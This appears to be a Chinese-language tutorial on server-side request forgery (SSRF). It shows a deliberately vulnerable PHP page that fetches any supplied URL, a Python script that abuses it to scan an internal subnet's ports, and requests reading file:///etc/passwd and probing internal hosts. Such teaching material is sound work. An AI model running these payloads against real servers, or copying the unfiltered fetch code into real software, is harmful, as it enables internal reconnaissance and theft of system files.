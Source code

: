 SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。 



url是远程目标的文本

```http
http://www.webtester.com/ssrf.php?url=http://www.moonsec.com/robots.txt
```

漏洞代码ssrf.php

```php
<?php
include 'init.php';
if ($_GET['url']) {
        // Client
        $url = $_GET['url'];
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_setopt($ch, CURLOPT_NOSIGNAL, 1);
        curl_setopt($ch, CURLOPT_TIMEOUT_MS, 5000);
        $data = curl_exec($ch);
        $curl_errno = curl_errno($ch);
        $curl_error = curl_error($ch);
        curl_close($ch);

        if ($curl_errno > 0) {
                echo "cURL Error ($curl_errno): $curl_error\n";
        } else {
                echo "$data\n";
        }
} else {
        // Server
        sleep(10);
        echo "Done.";
}
?>
```

1、 利用扫描内部网络

扫描c段的ip 和端口

ssrf.py 

```python
#coding:utf-8
import urllib,urllib2
import threading,Queue,time

q = Queue.Queue()
lock = threading.Lock()
def get_server(url,data=None):
    code=html=length=""
    data ={'url':'http://'+data}
    values= urllib.urlencode(data)
    try:
        req=urllib2.urlopen(url, data=values, timeout=5)
        html=req.read()
        code =req.code
        length=len(html)
        return code,html,length
    except:
        return code,html,length
#print get_server("http://localhost/ssrf/ssrf.php", "127.0.0.1:3306")

def run():
    while q.qsize()>0:
        ip = q.get()
        code,html,length=get_server("http://www.webtester.com/ssrf.php",ip)
        time.sleep(0.01)
        if length!="":
            lock.acquire()
            print "http://"+ip+"    code     "+str(code)+"    length    "+str(length)+"    html    "+html
            lock.release()
        else:
            lock.acquire()
            print ip
            lock.release()            
    q.all_tasks_done
    
ip="192.168.31."
for i in range(1,255):
    for port in [22,80,8080,3306]:
        iport = ip+str(i)+":"+str(port)
        q.put(iport)
        
for i in range(10):
    t = threading.Thread(target=run)
    t.start()
q.join()
```

2、 攻击内部网络

```http
http://www.webtester.com/ssrf.php?url=http://192.168.31.125/phpinfo.php
```

![image-20210416005953719](../acess/image-20210416005953719.png) 

3、识别内部系统

4、读取本地文件 

file:///C:/Windows/win.ini
file:///etc/passwd

```http
http://www.webtester.com/ssrf.php?url=file:///etc/passwd
```

![image-20210416005618673](../acess/image-20210416005618673.png) 

用burpsuite进行测试

![image-20210416010932999](../acess/image-20210416010932999.png) 
